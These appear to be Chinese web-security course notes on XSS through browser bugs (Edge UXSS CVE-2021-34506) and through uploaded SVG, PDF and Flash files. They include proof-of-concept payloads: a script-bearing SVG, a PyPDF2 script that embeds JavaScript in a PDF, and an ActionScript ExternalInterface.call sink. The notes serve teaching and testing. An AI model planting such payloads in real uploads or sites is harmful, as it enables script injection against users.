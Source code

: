 
---
➢ MXSS&UXSS-CVE-2021-34506

➢ SVG&PDF&SWF-XSS&上传&反编译

MXSS：#https://www.fooying.com/the-art-of-xss-1-introduction/

UXSS：Universal Cross-Site Scripting

UXSS是利用浏览器或者浏览器扩展漏洞来制造产生XSS并执行代码的一种攻击类型。(例如翻译插件引发xss)

MICROSOFT EDGE uXSS CVE-2021-34506

Edge浏览器翻译功能导致JS语句被调用执行

https://www.bilibili.com/video/BV1fX4y1c7rX

#SVG-XSS

SVG(Scalable Vector Graphics)是一种基于XML的二维矢量图格式，和我们平常用的jpg/png等图片格式所不同的是SVG图像在放大或改变尺寸的情况下其图形质量不会有所损失，并且我们可以使用任何的文本编辑器打开SVG图片并且编辑它，目前主流的浏览器都已经支持SVG图片的渲染。

```
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">

<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />

<script>alert(1)</script>

</svg>
```

#PDF-XSS

1、创建PDF，加入动作JS

2、通过文件上传获取直链

3、直链地址访问后被触发

借助PDF进行XSS漏洞攻击#https://blog.csdn.net/qq_48201589/article/details/135856195
脚本
```python
from PyPDF2 import PdfReader,PdfWriter

  

new_PDF = PdfWriter()

# 写入JavaScript代码

new_PDF.add_js("app.alert('xss');")

f = open("E:/BaiduNetdiskDownload/060-Web攻防-XSS跨站&文件格式&复现打包源码等/xsshtml/没有危害的PDF.pdf","wb")

new_PDF.write(f)

f.close()
```

项目：迅捷PDF编辑器试用版

#FLASH-XSS

-制作swf-xss文件：

1、新建swf文件

2、F9进入代码区域

3、属性发布设置解析

```
//取m参数

var m=_root.m;

//调用html中Javascript中的m参数值

flash.external.ExternalInterface.call(m);

触发：?m=alert(/xss/)
```

项目：Adobe Flash Professional CS6

-测试swf文件xss安全性：

1、反编译swf文件

2、查找触发危险函数

3、找可控参数访问触发

xss一是指执行恶意js，那么为什么说flash xss呢？是因为flash有可以调用js的函数，也就是可以和js通信，因此这些函数如果使用不当就会造成xss。常见的可触发xss的危险函数有：getURL，navigateToURL，ExternalInterface.call，htmlText，loadMovie等等

项目：JPEXS Free Flash Decompiler(反编译swf文件)
